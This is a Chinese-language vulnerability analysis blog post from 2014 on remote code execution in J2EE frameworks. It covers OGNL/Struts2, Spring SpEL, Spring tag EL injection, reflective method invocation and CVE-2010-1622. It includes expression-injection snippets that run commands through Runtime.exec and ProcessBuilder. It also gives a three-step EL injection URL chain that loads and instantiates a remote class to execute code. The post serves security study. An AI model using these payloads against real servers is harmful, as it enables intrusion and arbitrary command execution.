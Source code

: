 # J2EE 远程代码执行那些事儿(框架层面)

2014/02/11 17:14 | [Nebula](http://drops.wooyun.org/author/Nebula "由 Nebula 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

在 J2EE 远程代码执行中,大部分的代码执行情况的本质是,能够从外部去直接控制 Java 对象(其他语言暂不讨论,其实也差不多),控制 Java 对象大致包括几种情况:直接 new 对象;调用对象的方法(包括静态方法);访问对象的属性(赋值)等 

那么一些 J2EE 框架在设计之中,如果某些功能允许以上操作,可能出现的远程代码执行情况。

## 0x01 OGNL

* * *

参考：[`drops.wooyun.org/papers/340`](http://drops.wooyun.org/papers/340)

get 方式，调用对象的静态方法执行命令： 

```
...
OgnlContext context = new OgnlContext();
Ognl.getValue("@java.lang.Runtime@getRuntime().exec('calc')",context,context.getRoot());
... 
```

![2014021112460957891_png.jpg](img/img1_u54_jpg.jpg)

set 方式，new 一个对象调用方法执行命令： 

```
...
OgnlContext context = new OgnlContext();
Ognl.setValue(new java.lang.ProcessBuilder((new java.lang.String[] {"calc" })).start(), context,context.getRoot());
... 
```

那么我们在使用 OGNL 实现某些 J2EE 框架功能或者机制中，如果 getValue 或 setValue 函数是允许外部参数**直接完整内容**传入的，那肯定是很危险的！！！ 

比如：webWork 及 Struts2 框架（其实真是不想说，Struts2 简直就是在拖 Java 安全水平的后腿。它所有 OGNL 远程执行代码的漏洞的形成，可以用一句话简单概括：**在使用 OGNL 实现框架某些功能或机制时，允许外部参数直接传入 OGNL 表达式或安全限制被饶过等**） 

## 0x02 在 spring 框架中也有类似 OGNL 的 Spel 表达式

* * *

### 1.调用对象的静态方法执行命令: 

```
...
org.springframework.expression.Expression exp=parser.parseExpression("T(java.lang.Runtime).getRuntime().exec('calc')");
... 
```

![2014021112491712314_png.jpg](img/img2_u43_jpg.jpg)

### 2.new 一个对象调用方法执行命令: 

```
...
org.springframework.expression.Expression exp=parser.parseExpression("new java.lang.ProcessBuilder((new java.lang.String[]{'calc'})).start()");
... 
```

![2014021112505361561_png.jpg](img/img3_u38_jpg.jpg)

但 spring 在安全方面应该不会像 struts2 一样这么不负责任（不过，现在稍微好点了！），它有没有类似的安全漏洞，有兴趣的可以去找找 ^-^ 

## 0x03 spring 标签实现中的 el 表达式注入

* * *

例如，类似的代码场景： 

```
...
el: <spring:message text="${param.el}"></spring:message>
... 
```

之前是个信息泄露漏洞（路径及 jar 等信息）： 

![2014021112525255051_png.jpg](img/img4_u32_jpg.jpg)

前段时间老外弄出了远程命令执行,部分 exp（网上都有，有兴趣自己找试一下。能否执行代码和 web 容器有很大关系，最好选老外一样的 Glassfish 或者 resin 某些版本用反射技巧实现执行代码）:

```
http://127.0.0.1:8080/spring/login.jsp?el=${pageContext.request.getSession().setAttribute("exp","".getClass().forName("java.util.ArrayList").newInstance())} 
```

```
http://127.0.0.1:8080/spring/login.jsp?el=${pageContext.request.getSession().getAttribute("exp").add(pageContext.getServletContext().getResource("/").toURI().create("http://127.0.0.1:8080/spring/").toURL())} 
```

```
http://127.0.0.1:8080/spring/login.jsp?el=${pageContext.getClass().getClassLoader().getParent().newInstance(pageContext.request.getSession().getAttribute("exp").toArray(pageContext.getClass().getClassLoader().getParent().getURLs())).loadClass("exp").newInstance()} 
```

原理简单描述：远程加载一个 exp.class,在构造器中执行命令（利用对象初始化执行代码）.(因为其他 web 服务器对象方法调用被限制，所以执行恶意代码肯定会有问题) 

**这个漏洞重要的是学习它的利用技巧！**实际危害其实不大！ 

## 0x04 反射机制实现功能时，动态方法调用

* * *

参考：[`zone.wooyun.org/content/6971`](http://zone.wooyun.org/content/6971)

其实，这篇文章主要给出的是**反射机制使用不当造成的方法越权访问**漏洞类型场景，而不是 struts2 这个漏洞本身，可能大家都**怀恋**之前一系列 struts2 轻松 getshell 的 exp 了！ 

简化后的伪代码: 

```
... 
Class clazz = 对象.getClass(); 
Method m = clazz.getDeclaredMethod("有实际危害的方法"); 
m.invoke(对象);   
... 
```

原理简单描述：本质其实很简单，getDeclaredMethod 的函数如果允许外部参数输入，就可以直接调用方法了，也就是执行代码，只是危害决定于调用的方法的实际 power！ 

## 0x05 spring class.classLoader.URLs[0]对象属性赋值

* * *

cve-2010-1622 这是我最喜欢的一个漏洞利用技巧：

![2014021112554878852_png.jpg](img/img5_u29_jpg.jpg)

这个利用有点绕，其实如果看得懂 Java 其实也很简单！（大家常说，**喜欢熬夜的 coder 不是好员工**，睡觉了！） 

以前看了很多篇漏洞分析文章，其中这篇不错（说得算比较清晰），推荐它： 

[`www.iteye.com/topic/1123382`](http://www.iteye.com/topic/1123382)

另外，其实我个人觉得，这个漏洞的其他利用的实际危害要超过执行命令方式，比如：拒绝服务等 

如果把你想像力再上升一个层面:在**任意场景**中只要能够控制 Java 对象,理论上它就能执行代码(至于是否能够被有效利用是另外一回事)。其实说得再执白点，写底层代码的程序员知不知道这些问题可能导致安全漏洞！ 

版权声明：未经授权禁止转载 [Nebula](http://drops.wooyun.org/author/Nebula "由 Nebula 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：

![](img/img6_u36_png.jpg)

### 相关日志

*   [OGNL 设计及使用不当造成的远程代码执行漏洞](http://drops.wooyun.org/papers/340)
*   [J2EE MVC 模式框架中,表单数据绑定功能不安全实现在 Tomcat 下造成的 DoS 及 RCE](http://drops.wooyun.org/papers/1395)
*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)
*   [关于 OpenSSL“心脏出血”漏洞的分析](http://drops.wooyun.org/papers/1381)
*   [NTP 反射型 DDos 攻击 FAQ/补遗](http://drops.wooyun.org/papers/955)
*   [CDN 流量放大攻击思路](http://drops.wooyun.org/papers/679)